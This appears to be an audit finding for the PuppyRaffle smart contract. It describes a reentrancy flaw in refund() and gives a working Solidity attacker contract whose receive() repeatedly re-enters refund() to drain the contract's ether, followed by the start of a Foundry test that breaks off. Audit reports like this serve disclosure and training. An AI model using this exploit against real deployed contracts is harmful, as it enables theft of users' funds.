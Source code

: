 ## Vulnerability Details
Inside the refund function, the sendValue function is placed before the update of the state variable - players . However, the function does not follow the check-effect-interaction pattern, the state variable update (effect) is placed after the interaction of external function (interaction). This leads to the reentrancy issue and can cause loss of all ethers locked in the contract.

The attacker can write a contract whose receive function invokes the refund function of the protocol. The attacker will reenter the refund function and withdraw the token until the balance become zero.

## Impact

By the foundry testing framework, originally there are 100 ethers balance in the protocol and the hacker address. The hacker first use `PuppyRaffle::enterRaffle` to register the address of attacker contract as player. After that, the attacker contract triggers the attack function and the exploit process starts, and the result shows the balance of the protocol becomes zero.

attacker contract：https://gist.github.com/e3eaff08f00200770df7d4ed3a8b951f.git

For a simple proof-of-concept attacker contract and the corrsponding test:

Attacker Contract
```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

import "./PuppyRaffle.sol";
contract Reentrance {
    uint256 index;
    PuppyRaffle puppy;

    constructor(address _addr) {
        puppy = PuppyRaffle(_addr);
    }

    function updateIndex(uint256 _index) public {
        index = _index;
    }

    function attack() public {
        puppy.refund(index);
    }

    receive() external payable {
        if(payable(address(puppy)).balance>0) {
            puppy.refund(index);
        }
    }
}
```

Foundry Test
```js
function testReentranceRefund() public {
    address hacker = makeAddr("hacker");
    deal(address(puppyRaffle), 100 ether); // 100 ether balance in the protocol 
    deal(hacker, 100 ether);               // 100 ether balance in the hacker address

    vm.startPrank(hacker);
    Reentrance reentrance = new Reentrance(address(puppyRaffle)); // create a attacker contract
    address[] memory players = new address[](1);
    players[0] = address(reentrance);
    puppyRaffle.enterRaffle{value: entranceFee}(players);         // register the attacker contract as player
    uint256 beforeAmount = payable(reentrance).balance;
```